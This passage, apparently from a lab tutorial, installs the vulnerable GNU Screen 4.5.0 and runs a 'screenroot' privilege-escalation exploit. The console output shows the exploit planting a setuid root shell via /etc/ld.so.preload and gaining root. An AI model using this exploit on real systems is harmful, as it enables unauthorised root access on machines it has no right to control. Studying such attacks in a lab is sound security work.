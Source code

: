 
Then we'll install it with the command line using the following commands:

```shell
cd screen-4.5.0/
sudo apt install libncurses5-dev
./configure
make
sudo make install screen
```

We'll then verify if the program has been installed in the system:

```shell
user@pwn:~/Downloads/screen-4.5.0$ screen --version
Screen version 4.05.00 (GNU) 10-Dec-16
```

Next, we'll attempt to exploit the `GNU Screen` program:

```shell
user@pwn:~$ vim exploit.sh
user@pwn:~$ chmod +x service_exploit.sh 
user@pwn:~$ ./exploit.sh 
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function ‘dropshell’:
/tmp/libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^
/tmp/rootshell.c: In function ‘main’:
/tmp/rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
     setuid(0);
     ^
/tmp/rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
     setgid(0);
     ^
/tmp/rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
     seteuid(0);
     ^
/tmp/rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
     setegid(0);
     ^
/tmp/rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-low.

# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),1000 (user)
# 
```

As shown above, vulnerable service can lead us to higher privileges.